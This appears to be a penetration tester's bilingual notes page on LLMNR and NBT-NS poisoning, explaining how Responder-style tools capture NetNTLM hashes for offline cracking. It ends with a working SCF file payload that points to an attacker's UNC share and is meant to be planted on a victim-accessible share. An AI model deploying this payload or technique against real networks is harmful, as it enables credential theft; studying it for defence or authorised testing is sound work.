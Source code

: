 # LLMNR poisoning & NBT-NS

## Link-Local Multicast Name Resolution
- The goal of Link-Local Multicast Name Resolution (LLMNR) is to enable name resolution in scenarios in which conventional DNS name resolution is not possible.  LLMNR supports all current and future DNS formats, types, and classes, while operating on a separate port from DNS, and with a distinct resolver cache.  Since LLMNR only operates on the local link, it cannot be considered a substitute for DNS.
## NetBIOS Name Service
- [microsoft docs](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN)
## The poisoning
- the machine will try to ask all other machines on the local network for the correct host address via LLMNR. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. It uses port 5355 over UDP natively. If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port 137 over UDP.
- The kicker here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with Responder to poison these requests.
- If the requested host requires name resolution or authentication actions, we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password.

## Useful tools for this poisoning
- Responder
- Inveigh
- Metasploit framework


[a medium post](https://stridergearhead.medium.com/llmnr-poisoning-an-ad-attack-1265f5365332)

## SCF + LLMNR poisoning
- Primero creamos un artchivo SCF con el siguiente contenido:
```[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
- El nombre del archivo tiene que ser algo como `@Inventory.scf`.
- Este archivo lo tenemos que poner en un share que sea accesible por la victima.
- Luego, con responder capturamos el hash de la victima y lo crackeamos.